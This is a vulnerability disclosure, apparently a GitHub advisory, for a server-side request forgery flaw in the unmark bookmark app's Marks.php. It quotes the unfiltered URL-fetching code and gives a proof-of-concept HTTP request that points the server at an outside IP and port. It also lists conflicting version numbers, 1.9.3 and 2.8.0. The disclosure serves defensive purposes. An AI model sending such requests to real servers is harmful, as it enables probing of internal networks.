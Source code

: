 # SSRF vulnerability in unmark v1.9.3 of file /Marks.php

**vender**:

- [cdevroe/unmark: An open source to do app for bookmarks.](https://github.com/cdevroe/unmark)

**SoftLink**:

- [Release 1.9.3 · cdevroe/unmark](https://github.com/cdevroe/unmark/releases/tag/v1.9.3)

**Vulnerable File**

- application/controllers/Marks.php

**Version**

- 2.8.0

### Analyse

As seen in lines 33–45 of `application/controllers/Marks.php`:

```php
$dom = new DOMDocument();
libxml_use_internal_errors(true);
if (!$dom->loadHTMLFile($url, LIBXML_NOWARNING)) {
    foreach (libxml_get_errors() as $error) {
        // handle errors here
        echo '<p>There was an error adding the mark.</p>';
        if ( $error->code == 1549 ) {
            echo '<p>Most likely the URL is invalid or the web site isn\'t currently available.</p>';
        }
    }
    libxml_clear_errors();
    exit;
} else {
    $list = $dom->getElementsByTagName("title");
    if ($list->length > 0) {
        $title = $list->item(0)->textContent;
    }
}
```

### Evidence at the Code Level

- **Line 33**: `$dom->loadHTMLFile($url, LIBXML_NOWARNING)` directly uses the `$url` supplied by the user.
- **Lines 25–28**: Only checks whether the URL starts with `http://` or `https://`; no filtering of internal (private) addresses is performed.
- **No whitelist validation**: The code contains no mechanism to block or filter internal network addresses.

### POC

```
POST /marks/add HTTP/1.1
Host: www.unmark17.top
Referer: http://www.unmark17.top/marks
Cookie: BookEmDanno=q8psphj1utg6od6pbbhgcug26tlik5ip
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded
Origin: http://www.unmark17.top
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:142.0) Gecko/20100101 Firefox/142.0
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Content-Length: 19

add_from_url=1&url=http://8.138.152.157:2333
```



![image-20250826023409811](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508260234056.png)